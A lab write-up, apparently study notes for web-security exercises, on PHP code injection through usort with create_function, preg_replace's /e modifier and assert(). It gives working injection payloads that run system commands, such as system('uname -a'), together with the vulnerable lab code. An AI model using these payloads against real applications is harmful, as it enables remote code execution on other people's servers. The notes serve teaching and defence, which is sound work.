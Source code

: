 When ordering information, developers can use two methods:

order by in a SQL request;
usort in PHP code.
The function usort is often used with the function create_function to dynamically generate the "sorting" function, based on user-controlled information. If the web application lacks potent filtering and validation, this can lead to code execution.

By injecting a single quote, we can get an idea of what is going on:

```php
Parse error: syntax error, unexpected '',$b->id'' (T_CONSTANT_ENCAPSED_STRING) in /var/www/index.php(29) : 
runtime-created function on line 1
Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/index.php
 on line 29
```
The source code of the function looks like the following:

```php
ZEND_FUNCTION(create_function)
{
  [...]
  eval_code = (char *) emalloc(eval_code_length);
  sprintf(eval_code, "function " LAMBDA_TEMP_FUNCNAME "(%s){%s}", Z_STRVAL_PP(z_function_args), Z_STRVAL_PP(z_function_code));
 
  eval_name = zend_make_compiled_string_description("runtime-created function" TSRMLS_CC);
  retval = zend_eval_string(eval_code, NULL, eval_name TSRMLS_CC);
  [...]
```

We can see that the code that will be evaluated is put inside curly brackets {...}, and we will need this information to correctly finish the syntax, after our injection.

As opposed to the previous code injection, here, you are not injecting inside single or double quotes. We know that we need to close the statement with } and comment out the rest of the code using // or # (with encoding). We can try poking around with:

```?order=id;}//```: we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
```?order=id);}//```: we get a **warning**. That seems about right.
```?order=id));}//```: we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.
Since we now know how to finish the code correctly (a warning does not stop the execution flow), we can inject arbitrary code and gain code execution using ```?order=id);}system('uname%20-a');//```, as an example.

This challenge is based on a vulnerability in PHPMyAdmin: CVE-2008-4096

---

### PREG_REPLACE

```php
<?php
    if (!isset($_GET["new"])) {
        header("Location: /?new=user&pattern=/lamer/&base=Hello%20lamer");
        die();
    }
    require "header.php";
?>

<div class="row">
    <div class="col-lg-12">
        <h1>Code Execution 03</h1>
    <h1>
        <?php
        echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
        ?>
    </h1>
</div>
```

`echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);`

preg_replate perform a regular expression search and replace.

### Description
```php
preg_replace( string|array $pattern , string|array $replacement , string|array $subject [, int $limit = -1 [, int $count = null ]] ) : string|array|null 
```
Search *subject* for matches to *pattern* and replaces them with *replacement*.

This feature hsa been DEPRECATED in PHP 5.5.0, and REMOVED as of PHP 7.0.0.

Another very dangerous modifier exists in PHP: PCRE_REPLACE_EVAL (/e).

This modifier will cause the function `preg_replace` to evaluate the new value as PHP code, before performing the substitution.

PCRE_REPLACE_EVAL has been deprecated as of PHP 5.5.0
Here, you will need to change the pattern, by adding the /e modifier. Once you have added this modifier, you should get a notice:

Notice: Use of undefined constant hacker - assumed 'hacker' in /var/www/codeexec/example3.php(3) : regexp code on line 1
The function preg_replace tries to evaluate the value hacker as a constant, but as it is not defined, you get this error message.

You can easily replace hacker with a call to the function phpinfo() to get a visible result.

Once you can see the result of the phpinfo function, you can use the function system to run any command.

---

### assert()

This example is based on the function `assert`.

When used incorrectly, `assert` will evaluate the value received. This behaviour can be used to gain code execution.

By injecting a single quote or double quote (depending on the way the string was declared), we can see an error message indicating that PHP tried to evaluate the code:

```php
Parse error: syntax error, unexpected T_ENCAPSED_AND_WHITESPACE in /var/www/codeexec/example4.php(4) : assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: 'hacker'' in /var/www/codeexec/example4.php on line 4
```
Once we have broke the syntax, we need to try to reconstruct it correctly. We can try the following: `hacker'.'`. We can now see that the error message has disappeared.

Now that we know how to finish the syntax to avoid errors, we can just inject our payload to run the function `phpinfo(): hacker'.phpinfo().'` and we get the configuration of the PHP engine in the page.

Finally, we can use system to score.

This trick will no longer work with most PHP 7 and all PHP 8 applications. 

`assert()` will no longer evaluate string arguments, instead they will be treated like any other argument. `assert($a == $b)` should be used instead of `assert('$a == $b')`. The `assert.quiet_eval php.ini` directive and the `ASSERT_QUIET_EVAL` constant have also been removed, as they would no longer have any effect.

Other payload example:

`phpinfo():teste'.system('uname -a').'`
